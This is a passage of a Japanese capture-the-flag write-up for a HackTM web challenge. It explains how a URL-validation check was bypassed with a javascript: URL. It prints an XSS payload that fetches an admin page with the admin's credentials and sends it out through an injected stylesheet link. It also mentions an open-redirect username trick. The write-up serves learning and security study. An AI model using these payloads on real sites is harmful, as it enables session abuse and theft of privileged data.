        url = "https:" +  url;
    }

    let isValidUrl = isValidJSURL(url);
    let isUrl = isValidPattern(url);
    let sameDomain = url.toLowerCase().startsWith('/') && !url.substr(1).toLowerCase().startsWith('/');

    let ret = ((isValidUrl && isUrl) || sameDomain);

    return ret;
};

var expression = /^(https?\:\/\/)?[a-zA-Z0-9_-]+(.[a-zA-Z0-9_-]+)*.[a-zA-Z]{2,4}(\/[a-zA-Z0-9_]+){0,15}(\/[a-zA-Z0-9_]+.[a-zA-Z]{2,4}(\?[a-zA-Z0-9_]+\=[a-zA-Z0-9_]+)?)?(\&[a-zA-Z0-9_]+\=[a-zA-Z0-9_]+){0,15}$/gi;
var regex = new RegExp(expression);
var isValidPattern = function(url) {
    var urlNoQueryString = url.split('?')[0];
    return (url != null && !(urlNoQueryString.match(regex) === null || (url.split(" ").length - 1) > 0));
};

var isValidJSURL = function (url) {
    if (!(url.toLowerCase().startsWith("http://") || url.toLowerCase().startsWith('https://'))) {
        url = 'https://' +  url;
    }

    var toOpenUrl;
    try {
        toOpenUrl = new URL(url);
        return toOpenUrl.origin !== 'null';
    } catch (e) {}

    return false;
};
```

`isValidUrl` は引数として与えられた文字列が URL として妥当で安全っぽいものかチェックしているようです。ダメなら `iframe` で開かないようですが、もし `javascript:alert(123)` のように `javascript` スキームの URL を開かせることができればどうでしょうか。

いろいろ試しているうちに、`/#javascript:123/alert?1:alert(123);` といういい感じの URL っぽく、かつ JavaScript コードとして妥当なものを投げるとアラートを表示させることができました。

これを利用して外部にリクエストを送信できないか試してみましょう。先程の CSP をよく見ると、`default-src` と `style-src` は全く設定されていないことがわかります。つまり、`<link rel="stylesheet" href="//example.com">` のように外部の CSS を読み込む形なら外部にリクエストを発生させられます。

最終的に、`/#/page/sugestii` で `/#javascript:123/alert?1:fetch('/admin',{credentials:'same-origin'}).then(resp=>resp.text()).then(resp=>{h=document.getElementsByTagName('head').item(0);l=document.createElement('link');l.rel='stylesheet';l.href=['(URL)?',encodeURIComponent(resp)];h.appendChild(l);})` を `path` に入れてメッセージを送信すると、管理者がフラグを指定した URL に投げてくれました。

```
HackTM{6708e7a8d1ac8bfaaaeb3f6aa766b2c903ba7e82646ca5b83b5a20c940c54f9a}
```

## 感想

ユーザの検索画面で表示される `Only alphanumeric characters allowed.` というエラーメッセージから、ユーザ名に non-alphanumeric な文字が使えないという固定観念にとらわれてしまって [web] mIRC が解けなかったのを残念に思います。いや、`../../login?next=%2F%2Fexample.com` みたいなユーザ名で登録できるとか普通思わないでしょう。とにかく、私が取り組んでいた問題は [pwn] Quack the quackers を除いていずれも面白かったので満足です。